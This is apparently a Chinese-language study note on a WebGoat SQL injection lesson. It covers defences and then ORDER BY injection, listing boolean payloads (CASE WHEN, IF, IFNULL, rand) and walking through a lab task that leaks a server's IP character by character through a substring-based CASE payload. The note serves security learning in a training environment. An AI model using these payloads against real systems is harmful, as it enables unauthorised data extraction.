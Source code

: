 # SQL 注入

这一课程主要介绍了常见的防止 SQL 注入的手段。包括参数过滤、静态查询、存储过程等。

指出即便我的 SQL 不再能够注入，是否还需要对参数进行检查？需要！

* SQL 的 Order By 子句

Order 子句后面还可以接一个查询子句。因此对于网站中需要排序的时候，一定要使用确定的白名单限制列的名字。

常见的注入有：

* (CASE+WHEN+(1=1)+THEN+name+ELSE+price+END)
* IF(1=1,name,price)
* IFNULL(NULL,price)
* rand(1=1)

利用这些判断条件，和排序的结果，能够泄露信息。

## Task 1

1. 首先观察到点击排序后的请求是 ?column=ip 等，猜测，参数被传入 order by 子句。
2. 构造 column=hostname 等，发现均返回正确结果，印证猜测。
3. 设置 column=aaa 报错。返回：

```
unexpected token: THEN in statement [select id, hostname, ip, mac, status, description from servers  where status <> "out of order" order by (1=1) THEN test else id end)]
```
猜测其 webgoat-prd 的 status 是 “out of order”，此时利用构造语句：

``` sql
(case when (substring((select ip from servers where hostname='webgoat-prd'),1,1)=1) then hostname else id)
```
来注入，通过其排序结果来判断各位是啥。
